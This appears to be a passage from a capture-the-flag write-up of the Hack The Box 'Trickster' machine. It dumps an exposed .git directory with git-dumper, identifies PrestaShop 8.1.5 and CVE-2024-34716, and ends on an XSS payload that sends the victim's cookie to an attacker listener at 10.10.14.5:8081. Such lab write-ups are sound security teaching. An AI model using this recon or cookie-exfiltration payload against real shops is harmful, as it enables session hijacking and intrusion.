 ```bash
git-dumper http://shop.trickster.htb/ shop
[-] Testing http://shop.trickster.htb/.git/HEAD [200]
[-] Testing http://shop.trickster.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://shop.trickster.htb/.git/ [200]
[-] Fetching http://shop.trickster.htb/.gitignore [404]
[-] http://shop.trickster.htb/.gitignore responded with status code 404
[-] Fetching http://shop.trickster.htb/.git/logs/ [200]
[-] Fetching http://shop.trickster.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://shop.trickster.htb/.git/description [200]
[-] Fetching http://shop.trickster.htb/.git/HEAD [200]
[-] Fetching http://shop.trickster.htb/.git/refs/ [200]
[-] Fetching http://shop.trickster.htb/.git/hooks/ [200]
[-] Fetching http://shop.trickster.htb/.git/config [200]
---[snip]---
```

```bash
ls

admin634ewutrx1jgitlooaj  error500.html  init.php                 INSTALL.txt  Makefile
autoload.php              index.php      Install_PrestaShop.html  LICENSES


ls admin634ewutrx1jgitlooaj/

autoupgrade    cron_currency_rates.php  filemanager     get-file-admin.php  index.php   themes
backups        export                   footer.inc.php  header.inc.php      init.php
bootstrap.php  favicon.ico              functions.php   import              robots.txt
```

Seems the admin directory has a random string attached to it to make fuzzing borderline impossible.

# User as james

## shell as www-data

### CVE-2024-34716

Next step is to sift through [https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=prestashop&search_type=all&isCpeNameSearch=false](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=prestashop&search_type=all&isCpeNameSearch=false) for potential vulnerabilities. When I did the box I did so prior to finding a version number, but for reference this is version 8.1.5

There exists an xss vulnerability within the contact us page in version 8.1.5, where an uploaded png with html inside will be treated like an html file and be executed upon opening. To test for this I make a simple file to retrieve a cookie that may or may not exist.

```html
<script>document.location='http://10.10.14.5:8081/?'+document.cookie</script>
```
